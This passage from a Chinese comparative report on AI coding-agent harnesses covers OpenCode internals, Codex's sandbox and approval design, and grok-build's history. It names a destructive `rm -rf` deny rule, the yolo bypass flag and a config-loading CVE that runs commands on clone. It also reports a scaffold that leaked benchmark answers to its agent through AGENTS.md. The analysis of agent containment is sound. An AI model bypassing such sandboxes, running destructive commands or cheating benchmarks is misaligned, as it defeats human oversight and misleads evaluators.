**(b) LLM 摘要**：先选保留尾部——默认 `tail_turns=2` 个 user turn，预算 `preserve_recent_tokens = clamp(usable×0.25, 2_000, 8_000)`，超预算时在 turn 内部二分消息边界；以往所有压缩点整体从输入剔除，**上一次摘要作为 anchor** 包进 `<previous-summary>`，指令模型"保留仍为真的细节、移除过期细节、合并新事实"；产物遵循固定六段模板 Markdown——`## Objective / ## Important Details / ## Work State（Completed/Active/Blocked）/ ## Next Move / ## Relevant Files`，要求保留精确文件路径、符号、命令与错误串，且"不得提及摘要过程本身"。生成时剥离媒体、工具输出截 2,000 字符、v2 摘要上限 4,096 token；auto 模式追加一条 synthetic 用户消息自动续跑（`metadata.compaction_continue`），可被 `experimental.compaction.autocontinue` 钩子抑制。2026-07-09 合并的 "resilient compaction"（PR #36163）修复了摘要失败即丢会话的缺陷。这套"可逆 prune 在前、anchored 增量摘要在后"的排序与 Claude Code 逆向分析中的非破坏性压缩原则同构，且全部参数落在源码常量上、可被插件钩子整体替换 prompt——压缩策略本身也是可编程面。

#### 6.3.3 持久化：JSON→SQLite（v1.2.0）+ 会话消失事故 + 事件溯源 sync

存储格式缺口的答案：v1.2.0（2026-02）从 JSON 文件迁移至 **SQLite（drizzle ORM）**，库文件 `~/.local/share/opencode/opencode.db`（非 stable channel 为 `opencode-<channel>.db`）。核心三表：`session`（`ses_` 前缀 PK，project/parent FK 级联，token 五项会计与 cost，`permission` 会话级规则集 JSON 列，`time_compacting/time_archived` 等）、`message`（`msg_` 前缀，`data` JSON 整列）、`part`（`prt_` 前缀，类型全集含 text/reasoning/tool/file/patch/snapshot/compaction 等）；读取按 message 批量水合 part、游标分页按 `(time_created, id)`。遗留 JSON 存储与迁移器并存——而迁移本身翻过车：issue #13636/#13654（2026-02-14）记录增量升级跳过 JSON→SQLite 导入导致会话"消失"，该事故已获确认。share 实现 `share-next.ts` 把会话上传至 `cfg.enterprise?.url ?? "https://opncd.ai"`——**企业自托管分享页的开关在代码层已经留好**，公开链接形如 `opncd.ai/s/<id>`，`OPENCODE_DISABLE_SHARE` 硬禁用，`share: manual|auto|disabled` 三档可提交进项目配置强制全员生效。多设备 sync 走**事件溯源**：单一写者+多设备 replay、事件先发布后落库、projectors 执行变更、递增 `seq` 保证全序——为"一端控制 session、多端同步观看"（桌面/web/移动前夜）的场景预留了协议底座。

#### 6.3.4 扩展：npm/目录双源插件、20+ 顺序钩子

扩展缺口的答案：插件 = 导出 async 函数的 JS/TS 模块，签名 `(input: PluginInput) => Promise<Hooks>`；加载四源有序——内置 auth 插件（Codex/OpenAI、GitHub Copilot、GitLab 等约 10 个，直接 import）→ 配置 `plugin` 数组（npm 包，启动时 Bun 自动安装并缓存 `~/.cache/opencode/node_modules/`，带版本兼容性检查）→ 全局 `~/.config/opencode/plugins/` → 项目 `.opencode/plugins/`。钩子全集 20+：`chat.message`/`chat.params`/`chat.headers`（改写消息与采样参数）、`tool.execute.before/after`、`shell.env`（注入环境变量，含 PTY）、`tool`（自定义工具与内置同权注册）、**`permission.ask`**（插件可程序化裁决 ask/deny/allow，与 6.3.1 的状态机同层联动）、**`experimental.session.compacting`**（注入或整体替换压缩 prompt）、`experimental.compaction.autocontinue`、`experimental.chat.messages.transform` 等。触发语义刻意保守：`Plugin.trigger` 顺序调用所有插件同名钩子、以可变 output 串联，源码注释明示"保持插件顺序执行，使注册与执行顺序确定"（plugin/index.ts:218）——在并发至上的时代选择串行，是把可预测性置于吞吐之上的工程声明。配套面：内置 agent 7 个（build/plan/general/explore/scout 加隐藏的 compaction/title/summary），自定义 agent/command/skill 走 Markdown frontmatter（兼容 Claude Code skills，可关）；MCP 支持 OAuth 全自动（401 检测→动态客户端注册→浏览器授权→token 落盘）。

| 缺口（早期标注） | 本章源码级结论 | 关键证据坐标 |
|---|---|---|
| ① 沙箱/执行隔离"未见公开详细说明" | 无 OS 级沙箱系官方明示设计，权限系统自认 UX 层而非安全边界；代码中 "sandbox" = git worktree 并行工作区（语义澄清）；真隔离需 Docker/VM 或第三方 wrapper | SECURITY.md；seatbelt/seccomp/bwrap grep 零命中；permission/index.ts:28-38；project.ts `sandboxes` 字段 |
| ② 上下文压缩算法 | 两级策略：可逆 prune（40k 保护/20k 起剪/跳过近 2 turn，默认关）在前，anchored 增量摘要（六段模板、clamp(25%, 2k, 8k) 尾部预算、媒体剥离、自动续跑）在后 | compaction.ts:188-511；overflow.ts:11-21；core 版 buildPrompt |
| ③ session 存储格式 | JSON→SQLite（drizzle，v1.2.0）；session/message/part 三表 data JSON 整列；增量升级丢会话事故（#13636/#13654）；share→opncd.ai 留企业自托管开关；sync 事件溯源 | database.ts:53-54；session/sql.ts；share-next.ts:29,210；sync/README.md |
| ④ 扩展系统 | npm/目录四源加载、Bun 按需安装+兼容性检查、20+ 顺序钩子（含 permission.ask 裁决、compacting 定制）、TUI 插件独立体系、7 内置 agent | plugin/index.ts:166-293；packages/plugin/src/index.ts:222-330 |

四格补齐后，早期的悬置判断——"公开信息最少，可能是尚未成熟，也可能是刻意轻量"——可以落锤：证据支持**刻意轻量+可编程补偿**。无沙箱，但配了 `permission.ask` 裁决钩子与系统托管配置目录；无内置长期记忆外存，但配了 `compacting` 定制钩子；存储与同步两条线则按企业多设备路线重投入（SQLite 会计列、事件溯源）。四格中唯一既无机制也无补偿的是执行隔离——官方已把填补责任以书面形式转移给容器生态（SECURITY.md），社区 wrapper 的出现说明市场接受了这一分工。这与第 7 章 Codex"默认沙箱+默认断网"的内置路线构成九对象中最鲜明的安全哲学对位。

### 6.4 治理与 LSP

#### 6.4.1 配置 6~10 层、.well-known/MDM；LSP 事件总线+诊断 map 现状

早期"8 层配置"说法需双向纠偏：官方文档现只列 6 层，而源码实测 **10 层**（config.ts:340-560，后者覆盖前者，数组合并去重、对象深合并）——① 远程组织配置（auth wellknown 条目 → `GET <url>/.well-known/opencode`，可再指向带 header 的 remote_config）② 全局 `~/.config/opencode/`（含 legacy TOML 自动迁移）③ `OPENCODE_CONFIG` 指定文件 ④ 项目 `opencode.json/jsonc`（从 cwd 向上至 git root）⑤ `.opencode` 目录链 + `OPENCODE_CONFIG_DIR`（自动发现 agents/commands/plugins/skills）⑥ `OPENCODE_CONFIG_CONTENT` 内联 JSON ⑦ Console 组织配置（企业账户拉取 `/api/config`、token 注入环境变量）⑧ 系统托管目录（`/etc/opencode`、macOS `/Library/Application Support/opencode`、Windows `%ProgramData%\opencode`）⑨ macOS MDM plist（源码注释 "override everything"）⑩ `OPENCODE_PERMISSION` 环境变量 JSON。6/8/10 三个数字并存本身就是文档滞后于实现的标本；其中 .well-known 发现、系统托管目录、MDM 强制、企业 Console 四层构成完整的组织治理链，使 OpenCode 成为九对象中托管化（fleet management）接口最全的 harness——配合 6.3.3 的 share 强制禁用与内部网关，企业落地所需的"看得见、管得住、禁得掉"三个面都有配置层落点。

LSP 维度早期结论成立且增强：事件总线+全局诊断 map 的结构保留（`lsp.ts:344-366` 聚合所有 LSP client 的诊断），新增编辑后回注——`tool/edit.ts:196-202` 在 edit 执行后 `touchFile` 等待诊断，再把该文件的 LSP errors 直接拼进工具输出（"LSP errors detected in this file, please fix: …"），edit 另带多 replacer 与 Levenshtein 相似度 0.65 的模糊匹配回退；实验性 `lsp` 工具提供 goToDefinition 至 call hierarchy 共 9 种操作，受 `external_directory` 权限与 `OPENCODE_EXPERIMENTAL_LSP_TOOL` 门控。"唯一被公开详细描述的 LSP-agent 集成"，如今已从被动感知长成带写入回路的闭环——尽管 LSP 服务器按需下载与离线代理的摩擦仍被社区诟病。

---

## 7. Codex：Rust 内核 × 默认沙箱 × 产品矩阵

第 6 章的 OpenCode 把 agent 运行时做成了社区化的开放服务，本章的 Codex（`openai/codex`）则是九对象中唯一的"大厂工程化"样本：OpenAI 官方出品，手握三项九对象之最——唯一默认开启内核级沙箱、产品表面最多（一个 Rust 内核复用至八个表面）、npm 月下载 49.3M 断层第一。安全层是本章重心：Codex 是九者中唯一把"模型会执行任意命令"当作默认威胁模型、并用操作系统原语而非应用层提示词回答它的 harness。

### 7.1 定位与 TS→Rust 重写

#### 7.1.1 "Going Native"四动因；90+ crate、98.9k stars、npm 49.3M/月

Codex CLI 于 2025-04-16 以 TypeScript（Node.js + React/Ink 终端 UI）开源发布，Apache-2.0。仅六周后，官方 Discussion #1174《Codex CLI is Going Native》（2025-05-30）宣布推倒重来，给出四大动因：其一**零依赖分发**——不再要求 Node 运行时，单文件二进制交付，npm 包退化为按平台拉取二进制可选依赖的薄壳；其二**原生安全绑定**——沙箱需要直接调用 OS 原语（macOS Seatbelt、Linux seccomp 与命名空间），官方原话"Rust has first-class support for the primitives we need"；其三**性能**——无 GC、Tokio 多线程，社区实测启动约 10ms 对 TS 版约 100ms（C 级单源，未获官方确认）；其四**可扩展 wire 协议**——以 Rust 核心为中心向 TUI/IDE/cloud 多客户端复用。切换于 2025-06-30 的 `rust-v0.2.0` 完成（workspace 14 个 crate），同年 8 月 `rust-v0.20.x` 起 Rust 成为默认实现。

一年后的 HEAD（rust-v0.144.5，2026-07-16）workspace 已膨胀至 **90+ crate**，按职责分为内核、表面、安全（独占八 crate）、持久化与扩展诸群（结构见 7.2 架构图）。工程纪律是典型生产级 Rust：全 workspace `unwrap_used`/`expect_used` 一律 `deny`，release 构建开 `lto = "fat"`。采用度（as-of 2026-07-16/17，API 与 HTML 双口径互证）：98.9k stars / 14.8k forks / 473 contributors；npm `@openai/codex` 月下载 49,315,752，15 个月 900+ release（约每天 2 个，C 级）。crate 一年从 14 到 90+ 的增速本身即是信号：Codex 的架构演进不是"一个 loop 打天下"，而是把每个关切面切分为独立可测的编译单元。

### 7.2 架构

#### 7.2.1 无状态整段重放 agent loop + protocol 事件流 + App Server 八表面复用

Codex 的 agent loop（`core/src/session/turn.rs`，约 2.5k 行）是标准 ReAct/tool-use 循环，但其与模型 API 的关系才是真正与众不同之处：**对 Responses API 发起完全无状态请求**——不用 `previous_response_id`，每轮把全部历史整段重放，从而兼容 ZDR（零数据保留）合规场景。这一选择倒逼出两条设计约束：prompt 必须 append-only（静态内容——instructions、工具定义、环境上下文——固定在前，历史只可追加），否则 prompt cache 失效；官方博客自述曾因工具顺序 bug 造成昂贵的 cache miss。无状态重放的代价是 token 二次方膨胀，compact 把它压回线性（7.3.3）。

内核与一切表面的通信收敛为单一事实协议：`protocol` crate 定义的队列式双向消息——`Submission { id, op: Op }` 入、`Event { id, msg: EventMsg }` 出，按 id 配对。`Op`（`protocol.rs:527` 起）覆盖一切操作（`UserInput`/`ExecApproval`/`Compact`/`Shutdown` 等），`EventMsg`（1266 行起）覆盖一切进度（`AgentMessageDelta`/`ExecCommandBegin`/`TokenCount`/`TurnDiff` 等）；TUI、`codex exec`、app-server 都只是该协议的不同适配器。对外，App Server（2026-02 官方博客公开）把同一协议翻译为 **JSON-RPC over stdio**（JSONL 行分隔，省略 `"jsonrpc":"2.0"` 字段），双向之外还支持**反向请求**——server 向客户端发起 `item/commandExecution/requestApproval`，客户端回 accept/decline 等决定；抽象仅三原语：Thread（可 start/resume/fork/archive 的持久容器）→ Turn（可 steer/interrupt 的完整工作单元）→ Item（生命周期 `item/started → item/*/delta → item/completed` 的原子 I/O）。其起源是对 MCP 的否定：官方做 VS Code 扩展时先试过 MCP server，结论是"MCP 语义表达不了 diff 流、多步审批、持久会话"，遂自建协议并承诺向后兼容、配套 TypeScript/JSON-Schema 代码生成。



架构图揭示复用层级：交互式表面（TUI/exec）直连 `core`；嵌入式表面（IDE/App/SDK）多走一层 app-server 的 JSON-RPC；cloud 与 mcp-server 把内核整体搬进托管容器或外部 agent 生态。八表面无一拥有自己的 loop——这是"one harness, every surface"（官方原话）的结构性保证。

### 7.3 六维拆解

| 维度 | Codex 机制要点 | 源码坐标 / 关键参数 |
|---|---|---|
| 感知 | AGENTS.md 三层加载（全局/项目/嵌套）+ 每轮 `<environment_context>` 注入 + 每模型一份 base prompt | `core/src/agents_md.rs`；`project_doc_max_bytes` 默认 32 KiB |
| 记忆 | 三路径 compact：本地摘要 / `/responses/compact` 加密 item / token 预算窗口 | `core/src/compact.rs`；`model_auto_compact_token_limit` 按模型自动 |
| 执行 | `apply_patch`（Lark 文法约束解码）+ `shell_command` + `unified_exec` 持久 PTY | `tools/handlers/apply_patch.lark`；`exec.rs::process_exec_tool_call` |
| 安全（重点） | 三档沙箱 × 四档审批正交；Seatbelt / bwrap+seccomp / Windows 受限令牌；execpolicy 静态规则；默认断网 | `protocol.rs` `SandboxPolicy` / `AskForApproval` |
| 持久化 | rollout JSONL（ResponseItem 原样落盘）+ resume / fork | `~/.codex/sessions/YYYY/MM/DD/rollout-*.jsonl` |
| 扩展 | MCP client+server 双角色；prompts/skills/hooks 后补；硬拒 ACP | `core/src/mcp.rs`；issue #9085 |

速览表的分布规律：Codex 把最重的工程投入押在安全与执行两维——安全独占一个 crate 群，执行侧把编辑原语做成了解码层约束；感知维则走标准化路线（AGENTS.md 发起方），以生态杠杆替代私有格式。记忆维的远端加密压缩是九对象中唯一把压缩产物做成不透明服务端资产的路线；扩展维"MCP 双角色 + 拒 ACP"的组合暴露了真实的生态策略——接入层（工具进来）全面开放，驱动层（客户端控制 Codex）则由自家协议把守。以下逐维展开，安全维给足篇幅。

#### 7.3.1 安全（重点）：三档沙箱 × 四档审批、内核原语三平台、execpolicy 与默认断网

Codex 安全框架的第一块基石是 `SandboxPolicy` 三档（serde 名即 config.toml 取值）：`read-only`（只读 + 只读命令）、`workspace-write`（**默认推荐**：可写 cwd/TMPDIR/`/tmp` 与显式 `writable_roots`，`network_access` 默认 `false`——**默认断网**）、`danger-full-access`（无沙箱，等同用户权限直跑，TUI 有显式警告；`codex exec --dangerously-bypass-approvals-and-sandbox` 即社区所称 yolo 模式）。官方文档把威胁模型写得直白："Codex 可以运行任意命令，目标是防止 agent 意外或恶意地修改 workspace 外的文件、访问网络拉取 payload 或外泄数据"。第二块基石是与沙箱**正交**的审批枚举 `AskForApproval` 四档：`untrusted`（仅 `is_safe_command()` 判定的只读命令自动放行，其余皆问）、`on-request`（**默认**，模型自行决定何时请求批准）、`granular`（按类目布尔开关的细粒度配置）、`never`（从不问，失败直接回给模型）。两轴的组合语义与典型预设如下：

| 沙箱档 ＼ 审批档 | `untrusted` | `on-request`（默认） | `granular` | `never` |
|---|---|---|---|---|
| `read-only` | **只读审查预设**：写操作一律被沙箱拒绝，只读命令自动放行 | 模型按需申请；越权写入被拒后可转审批 | 按类目逐项自动放行 | 无人值守只读：失败不回问，直接回模型 |
| `workspace-write`（默认推荐） | 写命令几乎必问，沙箱内写入仍自由 | **默认组合**：沙箱内自由执行，越界/联网触发 `Op::ExecApproval` 升级审批 | 类目开关，介于 untrusted 与 on-request 之间 | 沙箱内全自动；越界直接失败回模型 |
| `danger-full-access` | 语义近乎矛盾（无内核兜底仍逐条问），实践中罕见 | 高危：无沙箱兜底，靠模型自律求人 | 同左，类目化收窄 | **全自动（yolo）**：一键拆光全部防线 |

矩阵的读法在于两轴的分工：沙箱是**能力边界**——由内核强制，模型无论被注入什么都无法自行扩大；审批是**意图确认**——把例外情形的判断留给人或静态规则。执行语义为三段式：先经 `safety.rs` 判定（`SafetyCheck::AutoApprove/AskUser/Reject`），沙箱内执行失败且策略允许时发起 `Op::ExecApproval` 升级到沙箱外重跑，`reject` 则直接回模型。官方 TUI 快捷键固化的预设只有三个对角组合（只读审查 / 默认 / 全自动），`ReviewDecision` 还支持 `approved_for_session` 与 `ApprovedExecpolicyAmendment`（`protocol.rs:4107`）——批准一次可顺带修改规则、会话内不再问同类命令，这是审批摩擦的长期对策。但正交设计也有明确代价：`on-request` 把"何时求人"的时机判断交给模型本身，安全横评将其列为残余风险之首；`never` 与 `danger-full-access` 组合成的 yolo 则一键拆除全部防线。

第三块基石是三平台的内核原语实现，且全部默认开启——九对象中仅此一家。**macOS** 走 Seatbelt：以硬编码 `/usr/bin/sandbox-exec -p <policy>` 启动（源码注释直言防 PATH 投毒——"若 sandbox-exec 已被篡改，攻击者早已有 root"），基线策略 `seatbelt_base_policy.sbpl` 注明灵感来自 Chromium renderer sandbox，`(deny default)` 闭口默认、按参数注入可写子路径规则；Seatbelt 是 per-process 内核 MAC、子进程继承父策略，逃逸面小，Apple 虽将其标为 deprecated，仍是 Chromium 同款可用机制。**Linux** 走 bubblewrap + seccomp：helper 二进制先以 bwrap 构建 mount namespace（workspace 可写 bind、其余根目录只读、tmpfs 挂 `/tmp`、可选 unshare 网络命名空间），进 namespace 后安装 seccomp-BPF 过滤器拦截 `socket`/`connect` 等网络 syscall（并 `prctl(PR_SET_NO_NEW_PRIVS)`），最后 `execvp`；2025-06 初版的 Landlock LSM 路径保留为旧内核兼容，WSL1 不支持 bwrap 有专门警告。**Windows** 分 elevated（专用低权沙箱账户 + 防火墙规则封网）与 unelevated（受限令牌启动进程 + workspace 目录 ACL 授权）两路，网络隔离靠防火墙规则而非 syscall 过滤。

第四块基石是 **execpolicy**——一个 Starlark 语法的静态规则引擎，核心谓词 `prefix_rule`：对 shlex 分词后的 argv 做 token 前缀匹配（多命令串联拆解后逐段评估），`decision` 取 `allow/prompt/forbidden`（默认 allow），`match`/`not_match` 字段在加载期自校验、相当于规则自带单测；用户可在 `~/.codex/rules/*.rules` 自定义，多个规则文件按序合并。其定位是"比问人便宜、比全放行安全"的中间层：`git status` 类 allow、`rm -rf` 类 forbidden、灰色地带 prompt。须同时记录其局限：前缀语义要求 `["git","push"]` 与 `["git","push","--force"]` 分别书写，串联命令的拆解依赖 shlex 保真——这正是别家命令解析器 CVE 群翻车的同一雷区；Codex 的缓解是**双闸**：execpolicy 判错还有内核沙箱兜底。最后必须点到安全史：CVE-2025-61260——项目 `.env` 设 `CODEX_HOME=./.codex` 配合项目内 `config.toml` 的 `mcp_servers`，克隆即任意命令执行且无交互审批（Check Point 2025-08-07 报告，0.23.0 修复）——它证明配置装载曾是沙箱之外的薄弱面；该事件与"工具链即攻击面"证据链的展开见第 12 章。

#### 7.3.2 执行：apply_patch 的 Lark 文法解码约束

Codex 最独特的执行原语是不让模型自由写 shell heredoc 改文件，而是给一个 DSL：`*** Begin Patch / Add File / Update File / Delete File / End Patch`，Update 内以 `@@` context 锚点定位。更关键的是实现方式：`apply_patch` 以 freeform custom tool 注册，`tools/handlers/apply_patch.lark` 用形式文法把 patch 格式编译进**采样约束**——"按格式出 patch"从 prompt 工程升级为解码层保证；gpt-5-codex 在训练中即对齐该格式，是"模型-工具联合设计"的典型。安全红利同样具体：patch 是纯数据，`safety.rs::assess_patch_safety` 可在落盘前静态审查每个 hunk 的目标路径（拒绝项目外写入、read-only 档下拒绝一切写入），审批 UI 逐文件 diff 展示——shell 命令做不到这种粒度。代价则写在第 5 章的对照实验里：这套格式对非 OpenAI 模型失败率高达 46–51%（Bölük 自评基准），联合设计的红利与锁定是同一枚硬币。base prompt 亦显式约束使用边界（自动生成的批量文件不要用 apply_patch）。shell 侧，一切命令经 `exec.rs::process_exec_tool_call` 管线（execpolicy 评估 → 沙箱包装 → spawn → 截断回传），`unified_exec` 提供持久 PTY 承载 REPL 与长任务。

#### 7.3.3 记忆：三路径 compact 与加密 item 的不可审计代价

`core/src/compact.rs` 实现三条压缩路径：**本地摘要**（窗口将满时注入 `SUMMARIZATION_PROMPT`，以模型摘要重建上下文，2025-06 即有的原始方案）；**远端压缩**（调 Responses API 的 `/responses/compact`，返回不透明的 `encrypted_content` item——比文本摘要更小、保留模型"潜在理解"、天然隐私友好，与无状态重放/ZDR 叙事自洽）；**token 预算窗口**（按预算截断重开）。触发为 `model_auto_compact_token_limit` 按模型窗口自动计算的阈值，TUI 可 `/compact` 手动，`Op::Compact` 是协议级操作。需要指出的代价：加密 item 路线意味着 harness 与用户都**无法检查模型"记住了什么"**——调试复盘、合规审计、上下文污染排查的能力同步丧失，这是九对象中唯一以可审计性换取体积与隐私的记忆方案；作为对照，本地摘要路径的产物完全可读。

#### 7.3.4 感知：AGENTS.md 三层加载与 prompt-cache 优化

Codex 是 AGENTS.md 开放标准的发起方（2025 年中与 Sourcegraph/Jules 等共建，2025-12 捐赠 Linux Foundation 旗下 Agentic AI Foundation，官方口径已进入 60,000+ 仓库）。加载逻辑三层：全局 `~/.codex/AGENTS.md`、项目根（从 cwd 向上找到 git 根）、子目录嵌套文件（进入该目录工作时叠加生效）；找不到即跳过不报错，`project_doc_max_bytes` 默认 32 KiB 限制注入体积。每个 turn 起始于用户侧注入 `<environment_context>` 块（cwd、shell、OS/平台、sandbox/approval 模式等），工具描述直接引用它。系统提示**每模型一份**（`gpt_5_codex_prompt.md` 等），组装顺序为 prompt-cache 优化，7.2 所述 cache miss 事故即发生在此层。

#### 7.3.5 持久化：rollout JSONL 与 resume/fork

会话落盘为 JSONL：`~/.codex/sessions/YYYY/MM/DD/rollout-<timestamp>-<uuid>.jsonl`，行类型 `RolloutItem`（`protocol.rs:3173`）含 `SessionMeta`、`ResponseItem`（Responses API item **原样直存**）、`Compacted`、`TurnContext`、`InterAgentCommunication` 与 `WorldState`。`codex resume [--last]`、SDK `thread_resume(thread_id)`、`thread/fork` 从任意点分叉；App Server 线程 30 分钟无活动卸载但历史持久。值得点破的是与无状态架构的呼应：ResponseItem 原样落盘意味着 resume 就是把文件读回、整段重发给 API——持久化格式与请求格式同构，这是无状态重放白送的红利。

#### 7.3.6 扩展：MCP 双角色与硬拒 ACP

Codex 对 MCP（Model Context Protocol）同时扮演两角：**client** 侧经 `rmcp-client` crate 接入外部工具（`[mcp_servers]` 配置本地命令或 streamable HTTP，支持 OAuth，工具以 `mcp__<server>__<tool>` 命名注册）；**server** 侧 `codex mcp-server` 把 Codex 本身暴露为 MCP 工具（`codex`/`codex-reply`，带 sandbox/approval 参数）——包括 Claude Code 在内的外部 agent 可把 Codex 当工具调。其边界声明（MCP 只接入、不驱动）已在 7.2 述及。由此引出九对象中最硬的协议站队：对 Zed 发起的 ACP（Agent Client Protocol），官方将 feature request issue #9085 关闭为 **not planned**（2026-02-08），理由即 App Server 已承担该角色；生态只能经社区桥 `zed-industries/codex-acp` 绕行。其余扩展面为后补梯队：`~/.codex/prompts/*.md` 斜杠命令、遵循 agentskills.io 标准的 `.agents/skills/`、`plugin`/`core-plugins` 市场，以及 2026 年新增的 `hooks.toml` 生命周期钩子——事件面仍小于 Claude Code 的五类 hook（C 级口碑）。模型开放度上，`model_providers` 可配 OpenAI 兼容端点、官方源码内含 `ollama`/`lmstudio` crate，即可接非 OpenAI 模型——但 base prompt 与 apply_patch 均为 OpenAI 模型训练对齐，能力损失自负。

### 7.4 产品矩阵

#### 7.4.1 八表面单内核复用；token 效率口碑

八个表面的分工逻辑是一条清晰的场景光谱：本地表面（CLI/TUI、IDE 扩展、桌面 App）面向交互式、人在环任务，沙箱落在用户机器上；`codex cloud` 面向异步长任务——同一 harness 跑在托管容器内（仓库 clone + setup 脚本 + secrets + 网络 off/limited/on 加域名白名单），产出 diff/PR，并延伸到 `@codex` PR 评论与自动 code review；`codex exec`、GitHub Action 与 TS/Python SDK 则是自动化入口，stdout 契约化（默认仅最终消息、`--json` 输出 JSONL 事件流）供 CI 与脚本消费。八个表面共享同一个 `core` 与同一套安全默认值，意味着"在哪个表面用 Codex"不改变其威胁模型——"单引擎多表面"虽是九家共识（见第 2 章架构范式分类），Codex 把它做到了表面数量与安全语义统一性的极致。

采用度与能力数据需要分层陈述。可验证硬数据（as-of 2026-07-17）：npm 月下载 49,315,752（九者第一，约为 OpenCode 的 5.5 倍）、GitHub 98.9k stars、TB2.0 榜单第 4 名 82.2%±2.2（Codex CLI + GPT-5.5，2026-04-23 提交）——九对象中最高的正式榜单条目。官方口径单列：全系产品 5M+ 周活（2026-06-02 公布，B 级官方数字，方向与硬数据一致但无独立验证方法）、VS Code 扩展约 11.5M 安装（C 级聚合站）。榜单成绩则须带污染警告：arXiv:2604.11806 实锤当时榜首 scaffold（ForgeCode）把答案写进 AGENTS.md 泄漏给 agent——颇具反讽的是，作弊通道正是 Codex 力推的指令层标准；Codex 条目日期晚于论文快照、未被点名，按已发表审计口径剔除作弊后其相对名次应上升而非下降，但作为自提交条目，82.2% 的绝对可信度与其他自提交条目同级；另有"GPT-5.5 82.7% SOTA"的厂商口径与榜单数字并存。

口碑层，Codex 最响亮的标签是 token 效率：第三方实测口径为同等任务用量约为 Claude Code 的 1/2 至 1/3（Composio Figma 克隆任务 6.23M vs 1.50M tokens，B 级转述，非受控基准），叠加 $20/月档最大的实际可用量，催生了"Codex for keystrokes, Claude for commits"的社区分工口诀。抱怨面同样稳定：o 系列模型过度思考（"5 分钟想 Sonnet 10 秒的题"）、小编辑幻觉多于 Claude Code、产品面碎片化、插件生态更小、锁 OpenAI rate limits。将效率口碑与 7.2 的架构对照可读出其工程来源：append-only 前缀 + prompt cache + 按模型自动 compact，本质上是一套以"每美元可用 token 数"为优化目标的 harness 经济学设计。Codex 的工具设计同时具有外溢影响力——第 8 章将看到 grok-build 对其工具的源码级移植（"移植≠集成"）。

---

## 8. grok-build：84 万行 Rust 的争议样本

grok-build 是九对象中唯一"先经历信任崩塌、后被完整公开"的样本：2026 年 5 月以闭源订阅产品发布，7 月因一份 wire-level 抓包报告陷入隐私丑闻，三天后 xAI 以 Apache-2.0 全量开源。这使本章成为两种证据强度的试验场——开源后的每一项架构论断都可落到源码坐标，而围绕它的多数传播数字（"8 路并行""70.8% SWE-bench"）恰形成于闭源期、至今未获一手证实。本章采取"源码事实"与"媒体叙事"严格分述：前者给坐标，后者一律收入 8.4 风险清单，正文不作事实引用。

### 8.1 时间线

#### 8.1.1 2026-05 发布 → 隐私上传事件 → 2026-07 全量开源 Apache-2.0

grok-build 的公开史始于一次泄露：2026 年 2 月 TestingCatalog 曝光原型截图，显示 Parallel Agents（2 模型 × 4 实例）与 Arena Mode 的代码痕迹——这两个泄露元素日后成为媒体误引的两大源头。2026-05-14 产品以早期 beta 发布，初始仅限 SuperGrok Heavy 订阅（$299/月，intro $99），随后下放至 SuperGrok（$30/月）与 X Premium Plus；生产模型 grok-build-0.1 约 5 月 20 日上线，前代 grok-code-fast-1 于 5 月 15 日弃用——这一别名沿革是日后跑分张冠李戴的制度性根源。6 月 Plugin Marketplace（强制 commit SHA pin）与 `/goal` 长任务模式相继 beta。

转折发生在 7 月第二周。2026-07-12，安全研究者 cereblab 发布 wire-level 报告：CLI 0.2.93 在用户未有效同意的情况下，将整个 Git 仓库连同提交历史打成 git bundle 上传至 GCS 桶 `grok-code-session-traces`，且 "Improve the model" 开关无效（技术剖析见 8.3.4）。次日 xAI 未发新版二进制，纯以服务端配置（`disable_codebase_upload: true`、`trace_upload_enabled: false`）止血，cereblab 同客户端六次复测确认。07-14 Musk 承诺"完全彻底删除"已上传数据，项目负责人 Andrew Milich 确认回溯删除；但截至 07-16 无独立删除审计、无受影响用户数、无正式事件报告。07-15，xAI 以 Apache-2.0 单 commit 全量开源（github.com/xai-org/grok-build），并重置所有用户限额、Grok 4.5 在 CLI 免费开放（仅需 X/Grok 账号）。

开源的市场反响即时且巨大：40 分钟内 +1,900 stars，2026-07-17 达 12,750（API 口径；HTML 口径 12,895）、fork 2,253；HN 主帖 573pts/615 评论，但最高赞评论即将其定性为"对几天前'你把整个工作目录让渡给这个工具'舆论的急转弯"——开源动机在社区叙事中始终与危机公关绑定。需要记录的治理事实：仓库主体为 SpaceXAI（xAI 已并入 SpaceX 旗下），从内部 monorepo 周期同步（`SOURCE_REV` 记录 monorepo SHA），CONTRIBUTING.md 明示不接受任何外部 PR、GitHub issues 关闭、安全报告走 HackerOne——可审计不可共治；contributors 计数为 1（monorepo 同步账号）。代码规模存在两个口径：Simon Willison 以 SLOCCount（排除空白与注释）计得 **844,530 行 Rust**（约 3% 为 vendored），本报告调研以 `find *.rs | wc -l` 口径（含空白、注释、测试）得 2,172 个 .rs 文件约 133 万行；引用须注明口径，本章标题取前者。

### 8.2 架构

#### 8.2.1 leader 守护进程 + ACP 内部总线；turn.rs 三道闸循环 + doom-loop 中止；mermaid Unicode 渲染

